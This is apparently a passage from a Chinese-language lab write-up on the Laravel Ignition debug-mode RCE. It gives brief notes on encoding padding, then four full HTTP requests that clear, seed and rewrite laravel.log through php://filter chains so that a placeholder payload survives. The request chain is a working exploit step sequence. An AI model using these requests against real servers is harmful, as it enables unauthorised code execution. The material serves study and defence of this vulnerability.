  

长度为偶数时, 会导致utf-16 to utf-8 转码为可见字符, 影响base64解码(invalid byte sequence)

  

  

为了排除影响, 可以在 PAYLOAD 前填充足够长的字符, 从而将 PART_OF_PAYLOAD 填充为任意textual char, 便会在 utf-16 to utf-8 时转码为 none-textual char, 最终不影响base64解码.

  

自此, 完全控制了日志内容.


清空日志

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 307
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile":"php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log", "variableName": "doesnotexist"}}
```



写入攻击payload

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 229
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile": "BBBBBBBBBBBBacon=55=00=45=00=46=00=5A=00=54=00=45=00=39=00=42=00=52=00=41=00=3D=00=3D=00", "variableName": "doesnotexist"}}
```

  

写入无害payload

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 143
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile": "AA", "variableName": "doesnotexist"}}
```

  

filter 链留下唯一payload

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 285
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/var/www/storage/logs/laravel.log", "variableName": "doesnotexist"}}
```

  


### References

[php convert.* filters doc](https://www.php.net/manual/en/filters.convert.php)

https://www.ambionics.io/blog/laravel-debug-rce

